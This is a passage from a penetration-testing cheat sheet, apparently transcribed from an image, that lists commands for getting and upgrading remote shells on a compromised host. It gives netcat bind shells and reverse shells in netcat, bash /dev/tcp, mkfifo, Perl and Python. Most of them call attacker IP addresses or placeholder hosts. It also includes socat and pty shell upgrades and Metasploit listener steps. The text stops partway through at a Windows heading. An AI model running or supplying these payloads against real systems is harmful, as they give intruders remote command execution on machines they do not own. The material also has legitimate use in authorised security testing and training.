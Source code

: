 ### UPGRADE SIMPLE TO INTERACTIVE:
    python -c 'import pty; pty.spawn("/bin/bash")'
    Alternate - Socat:
    	socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.8:443
    	socat file:`tty`,raw,echo=0 tcp-listen:443,reuseaddr	
### BIND SHELL (backdoor):
    Victim Box:  nc -lvp 4444 -e /bin/sh
        Windows:  nc -nlvp 4444 -e cmd.exe
    Attack Box:  nc 1.2.3.4 4444
### REVERSE SHELL (callback):
- **MASTER LIST:**  https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
- **LISTENER:**  
    `nc -nvlp 4444`
    - Catch Simple Shell w/ Metasploit:  `use exploit/multi/handler, set lhost ..., set lport ..., set payload linux/x86/shell_reverse_tcp`
     - Upgrade to Meterpreter:  `background; sessions -u 1; sessions; sessions -i [new ID]`
    - Catch Shell with Python:  
    
			import os, time  
			netcat = 'bash -c "nc -nvlp 4444"'  
			print ("Starting listener on port 4444")  
			from subprocess import call  
			call(netcat,shell=True)  
- **NETCAT:**  

        nc [Attack box IP] 4444 -e /bin/sh  
        nc [Attack box IP] 4444 -c bash  
        rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.18 4444 >/tmp/f  
    - Windows:  `nc.exe [Attack box IP] 4444 -e cmd.exe`
- **BASH:** 
 
        bash -i >& /dev/tcp/[Attack box IP]/4444 0>&1  
        bash -c "bash -i >& /dev/tcp/10.10.14.217/4445 0>&1"  
        setsid bash -i &>/dev/tcp/10.10.14.20/4444 0>&1 &  
- **PERL:**  

        perl -e 'use Socket;$i="10.10.14.217";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'  
    - Windows:  
    	`perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"$attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'`

- **PYTHON:**    

		python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.119.186",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'  
		python -c 'import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("Kali-IP",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'  
    - Windows:  
